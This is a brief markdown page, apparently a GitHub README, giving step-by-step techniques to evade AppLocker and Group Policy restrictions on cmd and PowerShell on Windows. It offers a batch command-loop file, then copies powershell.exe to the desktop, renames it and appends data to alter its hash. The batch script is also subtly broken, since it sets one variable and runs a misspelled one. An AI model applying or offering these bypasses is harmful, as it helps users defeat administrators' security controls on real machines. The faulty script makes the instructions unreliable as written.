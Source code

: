 # Bypass cmd and ps1 Restriction on Windows Desktop  

>Windows bypass CMD & PowerShell Restriction inforced by Microsoft App Locker [AppLocker](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/windows-defender-application-control/applocker/applocker-overview)  

>The follow content saved to a file named `bypasscmd.bat` on the desktop of user on windows computer.  

```DOS
@echo off
:a
Set /p comm=cmd~
%somm%
Goto a
```  

>The following copy methods can be used to bypass if `powershell.exe` restrictions are enforced with Group Policy.  

```
copy c:\windows\System32\WindowsPowerShell\v1.0\powershell.exe c:\users\peanut\desktop\powershell.exe
```  

If above copy do not bypass restrictions, then rename the file to new name before running.  

```
copy c:\windows\System32\WindowsPowerShell\v1.0\powershell.exe c:\users\peanut\desktop\NEW_powershell.exe
```  

If the hash of the restricted file is checked then alter the hash of the `PowerShell.exe' using below method.

```
echo >>C:\users\peanut\desktop\powershell.exe
```  

The techniques to perform Windows Bypass of restricted applications is explained in the video by [Loi Liang Yang](https://youtu.be/H6dgqTpAtkk).  
